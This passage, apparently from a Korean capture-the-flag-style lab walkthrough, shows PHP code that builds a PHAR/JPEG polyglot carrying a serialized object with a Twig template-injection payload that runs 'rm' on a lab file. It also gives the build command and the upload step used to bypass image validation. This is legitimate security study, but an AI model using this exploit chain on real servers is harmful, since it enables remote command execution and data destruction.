 ```php
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
$blog->user = 'user';
$object->template_file_path = $blog;



// config for jpg
$tempname = 'temp.tar.phar'; // make it tar
$jpeg = file_get_contents('in.jpg');
$outfile = 'out.jpg';
$payload = $object;
$prefix = '';

var_dump(serialize($object));


// make jpg
file_put_contents($outfile, generate_polyglot(generate_base_phar($payload, $prefix), $jpeg));


```

코드를 수정한 후 다음 커맨드를 실행하면 out.jpg 파일이 생성된다. 

```sh
php -c php.ini phar_jpg_polyglot.php
```

## 공격 
랩에 wiener유저로 로그인한 뒤에 자신의 프로필 사진을 위에서 만든 out.jpg파일로 업로드한다. 

업로드한 후에 보면 업로드한 out.jpg파일이 프로필 이미지로 보이는 것을 확인할 수 있다. 서버측의 밸리데이션체크를 우회한 것이다. 
